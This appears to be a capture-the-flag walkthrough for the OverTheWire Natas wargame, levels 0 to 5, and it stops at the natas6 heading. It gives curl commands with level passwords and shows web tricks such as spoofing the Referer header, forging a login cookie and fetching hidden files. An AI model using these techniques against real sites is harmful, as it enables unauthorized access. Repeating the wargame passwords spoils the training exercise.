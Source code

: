 
### natas0

```
Username: natas0
Password: natas0
URL:      http://natas0.natas.labs.overthewire.org
```

    $ curl -s -H "Authorization: Basic `echo -n 'natas0:natas0' | base64`" http://natas0.natas.labs.overthewire.org | grep
natas1

### natas1

```
natas1
passwd: gtVrDuiDfck831PqWsLEZy5gyDz1clto
```

    $ curl -s -H "Authorization: Basic `echo -n 'natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto' | base64`" http://natas1.natas.labs.overthewire.org | grep natas2

### natas2

    $ curl -s -H "Authorization: Basic `echo -n 'natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi' | base64`" http://natas2.natas.labs.overthewire.org/files/users.txt | grep natas3

### natas3

```
$ curl -s -H "Authorization: Basic `echo -n 'natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14' | base64`" http://natas3.natas.labs.overthewire.org/robots.txt

$ curl -s -H "Authorization: Basic `echo -n 'natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14' | base64`" http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt | grep natas4
```

### natas4

    $ curl -s -H "Referer: http://natas5.natas.labs.overthewire.org/" -H "Authorization: Basic `echo -n 'natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ' | base64`" http://natas4.natas.labs.overthewire.org/

### natas5

```
$ curl -s -v -H "Authorization: Basic `echo -n 'natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq' | base64`" http://natas5.natas.labs.overthewire.org/ 2>&1 | grep Cookie

$ curl -s -b "loggedin=1" -H "Authorization: Basic `echo -n 'natas5:iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq' | base64`" http://natas5.natas.labs.overthewire.org/ | grep natas6
```

### natas6
